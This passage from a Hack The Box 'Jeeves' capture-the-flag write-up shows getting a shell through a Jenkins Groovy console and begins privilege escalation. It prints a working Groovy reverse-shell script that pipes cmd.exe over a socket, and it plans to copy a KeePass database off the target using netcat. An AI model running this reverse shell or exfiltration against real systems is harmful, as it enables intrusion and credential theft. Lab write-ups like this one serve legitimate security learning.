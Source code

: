 <a href="/img/blog/htb-jeeves/htb-jeeves-03,5.png" target="_blank"><img class="centerImgHuge" src="/img/blog/htb-jeeves/htb-jeeves-03,5.png"></a>

This allows us to run arbitrary GroovyScript (similar to java) commands. Doing a bit of research, I find a GroovyScript reverse shell on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76){:target="_blank"}.

{% highlight java %}
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
{% endhighlight %}

If we rewrite the port and the host, we should be able to get a nice netcat reverse shell. 

<a href="/img/blog/htb-jeeves/htb-jeeves-04.png" target="_blank"><img class="centerImgMedium" src="/img/blog/htb-jeeves/htb-jeeves-04.png"></a>

Awesome! User's hash is located at `C:\Users\kohsuke\Desktop`. Go and get it! 

***

# Privilege escalation
Unfortunately, we still need to escalate our privileges in order to capture all the flags. There are two main methods of doing so - cracking of .kdbx file and token impersonation (*rotten potato method*). Below, the first method will be described. 

### - Keepas password manager
Doing a bit of roaming around the file system, I find an interesting .kdbx file. This file extension is associated with *Keepass password manager*. The mentiond .kdbx file can be found at `C:\Users\kohsuke\Documents\CEH.kdbx`. To transfer this file into our computer I first put **netcat** binary (in Kali: `/usr/share/windows-binaries/nc.exe`) onto the Windows system via Powershell:

